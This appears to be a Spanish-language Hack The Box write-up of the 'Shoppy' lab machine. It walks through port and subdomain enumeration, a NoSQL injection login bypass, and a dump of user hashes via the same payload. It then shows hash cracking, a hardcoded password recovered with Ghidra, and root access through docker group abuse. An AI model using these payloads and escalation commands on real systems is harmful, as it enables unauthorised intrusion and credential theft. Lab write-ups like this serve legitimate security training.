




## Información Básica

### Técnicas vistas

- Virtual Hosting
- Subdomain Enumeration
- NoSQL Injection (Admin Auth Bypass)
- Abusing the Shoppy App search engine (NoSQL Injection) - Obtaining the password of DB users
- Cracking Hashes Online
- Log into Mattermost + Information Leakage
- Abusing Sudoers Privilege
- Binary Analysis - GHIDRA (Reverse Engineering)
- Abusing docker group [Privilege Escalation]

### Preparación

- eWPT
- OSWE
- OSCP

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.180`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80,9093 10.10.11.180 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.180`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
9093/tcp open  http    Golang net/http server
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sun, 19 Oct 2025 13:01:10 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 5
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 5
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 2.9496e-05
|     go_gc_duration_seconds{quantile="0.25"} 5.4552e-05
|_    go_gc_dur
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.95%I=7%D=10/19%Time=68F4E0FC%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2FA4,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:
SF:\x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Sun,\x
SF:2019\x20Oct\x202025\x2013:01:10\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles
SF:_automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\
SF:x20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles
SF:_automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles
SF:_total\x205\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x205\n#\x20HELP\x20go_gc_duration_seconds\x20A\x20
SF:summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collectio
SF:n\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_du
SF:ration_seconds{quantile=\"0\"}\x202\.9496e-05\ngo_gc_duration_seconds{q
SF:uantile=\"0\.25\"}\x205\.4552e-05\ngo_gc_dur")%r(HTTPOptions,2FA4,"HTTP
SF:/1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\
SF:x20charset=utf-8\r\nDate:\x20Sun,\x2019\x20Oct\x202025\x2013:01:10\x20G
SF:MT\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20r
SF:untime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counte
SF:r\ngo_gc_cycles_automatic_gc_cycles_total\x205\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x205\n#\x20HELP
SF:\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20dur
SF:ation\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_du
SF:ration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x202\
SF:.9496e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x205\.4552e-05\ng
SF:o_gc_dur");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### WhatWeb

Comenzaremos reconociendo que tecnología está usando la web:

```bash wrap=false
❯ whatweb http://10.10.11.180                                                                                                                    
http://10.10.11.180 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.23.1], IP[10.10.11.180], RedirectLocation[http://shoppy.htb], Title[301 Moved Permanently], nginx[1.23.1]
http://shoppy.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.23.1], IP[10.10.11.180], JQuery, Script, Title[Shoppy Wait Page][Title element contains newline(s)!], nginx[1.23.1]
```

Deberemos añadir el dominio `shoppy.htb` a `/etc/hosts`.

### VHOST

Vemos que se está aplicando **Virtual Hosting**, vamos a ver que otros subdominios encontramos:

```bash wrap=false
❯ wfuzz -c -H "Host: FUZZ.shoppy.htb" --hc 301 -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt http://shoppy.htb 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"   
```

Nos lo vamos a añadir y lo tendremos en cuenta próximamente.

### Wfuzz

Para ver archivos/directorios ocultos dentro de la web objetivo, usaremos `wfuzz` para realizar fuerza bruta:

```bash wrap=false
❯ wfuzz -c -L -t 200 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://shoppy.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 26583

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                               
=====================================================================

000000039:   200        25 L     62 W       1074 Ch     "login"                                                                                                                                                                               
000000003:   200        25 L     62 W       1074 Ch     "admin"  
```

Si entramos a `/admin` nos lleva a `/login`.



### NoSQLi Auth Bypass

Probando **payloads** para un `NoSQLi`, el de [este artículo](https://nullsweep.com/nosql-injection-cheatsheet/), me funciona `username=admin' || '1'=='1&password=admin`:

```txt wrap=false
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Mon, 20 Oct 2025 16:23:36 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: keep-alive
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3AV4NRfeadzMU2OKTgpJu5jW2oK8xqKdv5.SOLmiusky7RmyjLwsezUBMeZpldJ1TPZIaIPpNJ1n4A; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```



Ya nos hemos saltado la autenticación, vemos que hay una especie de buscador, que si probamos el mimsmo exploit `http://shoppy.htb/admin/search-users?username=' || '1'=='1`:


Si le damos click al botón vemos esto:

```json wrap=false
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

### Cracking Hashes

Si intentamos crackear estos hashes en [cracakstation.net](https://crackstation.net/), vemos que el de `josh` es:



Probando estas credenciales, vemos que sirven en `mattermost.shoppy.htb`:


Investigando las conversaciones, vemos algo bastante interesante:



```bash wrap=false intitle='Nos conectamos por SSH'
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Oct 20 13:01:46 2025 from 10.10.14.7
jaeger@shoppy:~$ whoami
jaeger
jaeger@shoppy:~$ cat user.txt 
fb1a370f2fca17d7c65...
```

## Escalada de privilegios

Vamos a ver si tenemos algún privilegio como usuario `jaeger`:

```bash wrap=false
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Vemos que podemos ejecutar el binario `/home/deploy/password-manager` como el usuario `deploy`, vamos a probar a ver que hace este binario:

```bash wrap=false
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

### Ghidra

Si lo pasamos por `Ghidra` para hacer ingenieria inversa, vemos este código:

```bash wrap=false

bool main(void)

{
  int comparacion_resultado;
  ostream *poVar1;
  string correct_password [32];
  string input_password [47];
  allocator local_19 [9];
  
  poVar1 = std::operator<<((ostream *)std::cout,"Welcome to Josh password manager!");
  std::ostream::operator<<(poVar1,std::endl<>);
  std::operator<<((ostream *)std::cout,"Please enter your master password: ");
  std::__cxx11::string::string(input_password);
                    /* try { // try from 00101263 to 00101267 has its CatchHandler @ 001013cb */
  std::operator>>((istream *)std::cin,input_password);
  std::allocator<char>::allocator();
                    /* try { // try from 00101286 to 0010128a has its CatchHandler @ 001013a9 */
  std::__cxx11::string::string(correct_password,"",local_19);
  std::allocator<char>::~allocator((allocator<char> *)local_19);
                    /* try { // try from 001012a5 to 00101387 has its CatchHandler @ 001013ba */
  std::__cxx11::string::operator+=(correct_password,"S");
  std::__cxx11::string::operator+=(correct_password,"a");
  std::__cxx11::string::operator+=(correct_password,"m");
  std::__cxx11::string::operator+=(correct_password,"p");
  std::__cxx11::string::operator+=(correct_password,"l");
  std::__cxx11::string::operator+=(correct_password,"e");
  comparacion_resultado = std::__cxx11::string::compare(input_password);
  if (comparacion_resultado != 0) {
    poVar1 = std::operator<<((ostream *)std::cout,"Access denied! This incident will be reported !")
    ;
    std::ostream::operator<<(poVar1,std::endl<>);
  }
  else {
    poVar1 = std::operator<<((ostream *)std::cout,"Access granted! Here is creds !");
    std::ostream::operator<<(poVar1,std::endl<>);
    system("cat /home/deploy/creds.txt");
  }
  std::__cxx11::string::~string(correct_password);
  std::__cxx11::string::~string(input_password);
  return comparacion_resultado != 0;
}
```

Básicamente lee nuestro input, y lo compara con `Sample` que es la contraseña:

```bash wrap=false
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ su deploy
Password: 
$ whoami
deploy
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

### Docker group abuse

Debido a que pertenecemos al grupo `docker`, vamos a empezar haciendo un reconocimiento en la máquina:

```bash wrap=false
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   3 years ago   5.53MB
```

Viendo que tiene la imagen de **alpine** se me ocurre ejecutar esto:

```bash wrap=false
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

`docker run` → Crea y ejecuta un contenedor
`--rm` → Elimina el contenedor al salir 
`-it` → Shell interactiva en el contenedor
`-v /:/mnt` → Monta el filesystem completo del host en /mnt del contenedor
`alpine` → Imagen Linux
`chroot /mnt sh` → Cambia el root al filesystem del host, obteniendo shell como root

```bash wrap=false
deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
# whoami
root
# cat /root/root.txt
3cb46d87fba67dbd77f0...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/496)

---
